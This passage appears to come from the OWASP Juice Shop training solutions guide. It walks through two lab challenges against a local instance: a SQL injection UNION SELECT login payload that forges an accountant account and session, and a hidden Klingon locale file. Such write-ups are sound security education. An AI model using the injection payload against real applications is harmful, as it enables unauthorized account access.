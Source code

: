 ### Log in with the (non-existing) accountant without ever registering that user

1. Go to <http://localhost:3000/#/login> and try logging in with _Email_
   `'` and any _Password_ while observing the Browser DevTools network
   tab.
2. You will notice the SQL query for the login in the error being
   thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password =
   '339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
3. Solve
   [Exfiltrate the entire DB schema definition via SQL Injection](#exfiltrate-the-entire-db-schema-definition-via-sql-injection)
   to learn the exact column names of the `Users` table.
4. Prepare a `UNION SELECT` payload what will a) ensure there is no
   result from the original query and b) will add the needed user
   on-the-fly using static values in the query.
5. Log in with _Email_ `' UNION SELECT * FROM (SELECT 15 as 'id', '' as
   'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as
   'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4'
   as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as
   'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16
   14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00'
   as 'updatedAt', null as 'deletedAt')--`
6. This will trick the application backend into handing out a valid JWT
   token and thus establishing a user session.

### Retrieve the language file that never made it into production

1. Monitoring the HTTP calls to the backend when switching languages
   tells you how the translations are loaded:
   * <http://localhost:3000/i18n/en.json>
   * <http://localhost:3000/i18n/de_DE.json>
   * <http://localhost:3000/i18n/nl_NL.json>
   * <http://localhost:3000/i18n/zh_CN.json>
   * <http://localhost:3000/i18n/zh_HK.json>
   * etc.
2. It is obvious the language files are stored with the official
   _locale_ as name using underscore notation.
3. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`,
   `ab_AA`, ..., `zz_ZY`, `zz_ZZ`) would still **not** solve the
   challenge.
4. The hidden language is _Klingon_ which is represented by a
   three-letter code `tlh` with the dummy country code `AA`.
5. Request <http://localhost:3000/i18n/tlh_AA.json> to solve the
   challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very
obvious decision to make) you can more easily find the solution to this
challenge by investigating which languages are supported in the Juice
Shop and how [the translations](../part3/translation.md) are managed.
This will quickly bring you over to
<https://crowdin.com/project/owasp-juice-shop> which immediately
spoilers _Klingon_ as a supported language. Hovering over the
corresponding flag will eventually spoiler the language code `tlh_AA`.
